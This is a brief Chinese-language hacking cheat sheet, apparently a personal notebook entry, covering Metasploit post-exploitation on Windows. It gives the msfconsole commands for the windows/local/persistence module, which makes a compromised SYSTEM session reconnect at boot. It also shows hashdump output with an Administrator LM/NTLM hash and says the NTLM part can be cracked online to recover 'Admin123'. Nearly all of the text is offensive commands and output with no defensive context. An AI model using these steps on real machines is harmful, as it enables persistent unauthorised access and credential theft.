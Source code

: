 ## **Win MSF Windows启动自上线**
已知会话2为system/root
background
使用windows权限维持模块
```
use exploit/windows/local/persistence
show options
set session 2
run
```
^
## **Win MSF获取用户的hashdump**

获取密码哈希，msf中用hashdump命令
```
Administrator:500:ac804745ee68ebea1aa818381e4e281b:3008c87294511142799dca1191e69a0f:::
```
![](.topwrite/assets/image_1734337865609.png)

前一段是LM，后一段3008c后是密码NTLM的hash，一般利用后一段，可以用在线网站解密Admin123

